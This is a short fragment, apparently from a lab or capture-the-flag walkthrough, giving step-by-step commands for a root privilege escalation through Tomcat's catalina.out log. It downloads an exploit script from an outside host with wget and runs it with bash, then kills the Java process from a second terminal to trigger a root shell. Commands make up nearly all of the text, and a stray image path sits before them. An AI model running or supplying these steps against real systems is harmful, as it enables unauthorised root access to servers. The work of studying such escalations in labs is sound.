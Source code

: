 ```
cd /tmp 2>&1
wget http://10.1.0.88:8001/exploit.sh 2>&1
bash exploit.sh /var/lib/tomcat7/logs/catalina.out 2>&1
```

Then in a second terminal:

```
pkill java -15 2>&1
```

And wait for the first termianl to give you a root shell.
